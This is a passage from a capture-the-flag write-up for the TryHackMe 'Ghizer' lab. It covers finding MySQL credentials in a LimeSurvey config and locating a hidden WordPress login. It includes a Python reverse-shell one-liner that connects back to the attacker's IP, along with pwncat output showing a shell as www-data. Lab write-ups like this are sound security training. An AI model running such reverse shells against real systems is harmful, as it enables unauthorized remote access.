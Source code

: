 I'm `www-data`!

**In `/var/www/html/limesurvey/application/config/config.php`, we can see there is a credentials for MySQL:**
```php
'db' => array(
			'connectionString' => 'mysql:host=localhost;port=3306;dbname=limedb;',
			'emulatePrepare' => true,
			'username' => 'Anny',
			'password' => '{Redacted}',
			'charset' => 'utf8mb4',
			'tablePrefix' => 'lime_',
		),
```

## Initial Foothold 2 - WordPress RCE

In HTTPS on port 443, it's a WordPress page!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Ghizer/images/a4.png)

Also, it said: `I use the plugin WPS Hide Login for hide wp-login!`

By default, WordPress login page is in `/wp-login.php`. If the WordPress has `WPS Hide Login` plugin installed, the login will changed.

> Note: There are 2 ways to find the login url. The first way requires initial foothold in LimeSuvey.

### Finding Login URL in WordPress 1 - LimeSurvey RCE -> MySQL

**Since we're already has remote access to the target machine, we can go to MySQL database and look for the value of `whl_page` in `wp_options` table.** (Source: [GreenGeeks](https://www.greengeeks.com/tutorials/use-wps-hide-login/))

**But before we do that, make sure our reverse shell is stabled:** (If you're using `pwncat-cs`, press `Ctrl + D` to switch to remote mode.)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# pwncat-cs -lp 4444

$ python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.27.249",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'

[04:31:20] Welcome to pwncat 🐈!                                                            __main__.py:164
[04:32:00] received connection from 10.10.160.234:60446                                          bind.py:84
[04:32:05] 10.10.160.234:60446: registered new host w/ db                                    manager.py:957
(local) pwncat$                                                                                            
(remote) www-data@ubuntu:/var/www/html/limesurvey$ whoami;hostname;id;ip a
www-data
ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:56:23:b0:c1:77 brd ff:ff:ff:ff:ff:ff
    inet 10.10.160.234/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::56:23ff:feb0:c177/64 scope link 
       valid_lft forever preferred_lft forever
```